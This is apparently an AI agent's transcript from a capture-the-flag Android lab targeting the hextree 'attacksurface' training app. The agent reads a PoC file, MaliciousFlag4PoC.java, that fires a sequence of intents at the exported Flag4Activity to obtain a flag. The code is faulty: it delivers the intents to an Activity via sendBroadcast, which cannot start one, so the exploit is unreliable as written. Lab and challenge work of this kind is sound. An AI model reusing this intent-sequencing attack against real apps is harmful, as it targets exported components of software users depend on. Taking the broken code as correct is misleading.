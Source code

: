 Now, let's define the PoC strategy. Since this is an Android app, the PoC will be a small, self-contained malicious Android application that I will write to a file. It will have its own `AndroidManifest.xml` and Java source file. It will target an exported component (Activity, Service, etc.) of the main application.

I will now examine the provided files, specifically `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml`, to understand the intended attack vector.

--- Tool Call ---
read_file_content({'file_path': 'MaliciousFlag4PoC.java'})

--- Tool Observation ---
package com.example.maliciousflag4poc;

import android.app.Activity;
import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;

public class MaliciousFlag4PoC extends Activity {

    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";
    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";
    private static final String PREPARE_ACTION = "PREPARE_ACTION";
    private static final String BUILD_ACTION = "BUILD_ACTION";
    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        // Step 1: Send PREPARE_ACTION
        sendAction(PREPARE_ACTION);

        // Step 2: Send BUILD_ACTION
        sendAction(BUILD_ACTION);

        // Step 3: Send GET_FLAG_ACTION
        sendAction(GET_FLAG_ACTION);

        // Step 4: Send a final intent to trigger the flag
        sendAction(""); // Empty action

        Log.i("MaliciousFlag4PoC", "Intents sent");
        finish(); // Close the activity after sending intents
    }

    private void sendAction(String action) {
        Intent intent = new Intent();
        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        intent.setAction(action);
        sendBroadcast(intent);
        Log.i("MaliciousFlag4PoC", "Sent action: " + action);
    }
}
